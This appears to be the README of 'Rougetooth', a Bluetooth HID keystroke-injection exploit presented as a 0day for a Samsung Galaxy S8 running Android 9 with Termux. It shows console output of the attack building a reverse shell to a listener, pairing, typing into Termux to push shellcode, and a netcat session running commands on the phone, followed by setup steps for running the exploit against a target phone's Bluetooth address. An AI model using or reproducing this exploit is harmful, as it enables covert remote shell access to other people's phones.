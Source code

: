 **Rougetooth Bluetooth HID injection attack**

*This is 0day as of Apr 21, 2023*

```
 [?] Samsung S8 android 9 HID controller exploit
 [?] Tested on Build PPR1.180610.001.G950USQU8DUJ1
 [?] In memory of Jason Reynolds / Gemani

 [*] Building reverse shell for 10.0.2.2:6543
 [*] Pairing to 08:AE:D6:6F:DD:F8
 [!] Paired 08:AE:D6:6F:DD:F8 to DC:53:60:6C:FC:B3
 [!] Go to another terminal and start a netcat listener on port  to handle the shell!
 [*] Registered HID profile
 [!] Ready, waiting for connection from phone
 [*] Control channel connected to 08:AE:D6:6F:DD:F8
 [*] Interrupt channel connected to 08:AE:D6:6F:DD:F8
 [!] Building shell...
 [*] Trying to attain control over device...
 [*] Sending back to home screen...
 [*] Trying to pull up finder...
 [*] Trying to find termux...
 [*] Pushing shellcode now...
 [!] Back that big ass up guuuuuurl!
 listening on [any] 6543 ...
 ^C
 [!] Trying again...
 listening on [any] 6543 ...
 connect to [10.0.2.2] from nerkon [10.0.2.5] 51818
 ~ $ ls -al
 ls -al
 total 16
 drwx------ 3 u0_a466 u0_a466 4096 Apr 20 21:15 .
 drwxrwx--x 4 u0_a466 u0_a466 4096 Apr 20 21:12 ..
 -rw------- 1 u0_a466 u0_a466 1334 Apr 21 23:52 .bash_history
 drwx------ 2 u0_a466 u0_a466 4096 Apr 20 21:12 .termux
 ~ $ uname -a; id
 uname -a; id
 Linux localhost 4.4.153-17214672 #2 SMP PREEMPT Thu Oct 21 19:08:15 KST 2021 aarch64 Android
 uid=10466(u0_a466) gid=10466(u0_a466) groups=10466(u0_a466),3003(inet),9997(everybody),20466(u0_a466_cache),50466(all_a466)
 ~ $
```


*setup*

Need to run `sudo systemctl stop bluetooth`, then run: `bluetoothd -P input`.

Now pair the device, and: `sudo ./run.sh [phone bt mac] [local ip addr]`.  Now on the phone, tap on the computer's controller alias in the bluetooth screen, and the exploit should proceed.

With a little luck, you'll see a shell from the phone pop up in netcat within about a minute.

**Tested on:**

*linux kernel 6.1.12, bluetoothd 5.66, python libraries: python-xlib 0.27, dbus-python 1.2.16*

*Samsung Galaxy S8 running android 9, termux installed.*

Have fun, and be safe!

 
